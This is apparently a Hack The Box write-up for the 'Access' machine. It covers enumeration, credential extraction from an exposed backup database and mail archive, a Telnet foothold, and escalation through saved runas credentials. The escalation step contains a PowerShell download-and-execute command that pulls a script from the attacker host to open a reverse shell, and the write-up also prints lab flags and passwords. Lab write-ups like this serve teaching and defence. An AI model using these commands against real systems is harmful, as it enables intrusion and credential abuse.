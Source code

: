 # HTB: Access

## Engagement Overview

**Target:** Access
**Box IP:** 10.10.10.98 
**Date:** 2025-09-16 
**Attacker Host:** 10.10.14.3

---

### Objectives

- Enumerate services and discover exposed files.  
- Extract credentials from backups/mail archives.  
- Gain initial foothold via Telnet.  
- Escalate to Administrator using misconfigured runas/savecred.  
- Capture `user.txt` and `root.txt`.  

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -T5 -oN logs/nmap 10.10.10.98
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet  Microsoft Telnet
80/tcp open  http    Microsoft IIS httpd 7.5
```

### Web/FTP Discovery

- FTP anonymous access allowed.  
- Retrieved files:  
  - `Backups/backup.mdb`  
  - `Engineer/Access Control.zip` → contained `Access Control.pst`.  

```bash
# Mirror
wget -m ftp://anonymous:anonymous@10.10.10.98
```

---

## Initial Access

### Credential Extraction

From `backup.mdb` (auth_user table):  

- `engineer:access4u@security`  

```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

admin
engineer
access4u@security

# Alternate method mdbtools (export auth_user)
mdb-tables backup.mdb

# Clean up output to see tables
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
acc_timeseg: 2

# List table data
mdb-export backup.mdb auth_user
```

Password unlocked `Access Control.zip` → contained `Access Control.pst`.  
From PST (email):  

- `security:4Cc3ssC0ntr0ller`  

```bash
# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

### Telnet Login

```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller
```

```cmd
C:\Users\security> whoami
access\security

C:\Users\security> type Desktop\user.txt
cb237095f1d0b24079794fa1a2932c1b
```

---

## Privilege Escalation

### Suspicious LNK

Found `ZKAccess3.5 Security System.lnk` referencing:  

```cmd
runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Abusing Saved Credentials

Hosted Nishang PowerShell one-liner on attacker machine and executed via runas:  

```powershell
# attacker
nc -lnvp 443

# target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell established as Administrator:  

```cmd
PS C:\Users\Administrator\Desktop> type root.txt
bc97e19e6897f692e5272f63e763a3a8
```

---

## House Cleaning

- Removed hosted `shell.ps1` from attacker box.  
- No persistence or artifacts left on target.  

---

## Tools Utilized

- `nmap`, `gobuster`  
- `strings`, `mdbtools`, `readpst`  
- `telnet`, `nc`  
- `runas`, `powershell` (Nishang one-liner)  

---

## Key Takeaways

- Backup and PST files exposed sensitive credentials.  
- Weak service configuration (Telnet, anonymous FTP) enabled easy access.  
- Misconfigured `runas /savecred` allowed privilege escalation.  
- Defensive measures: restrict backup access, remove Telnet, audit saved credentials, monitor PowerShell downloads.  
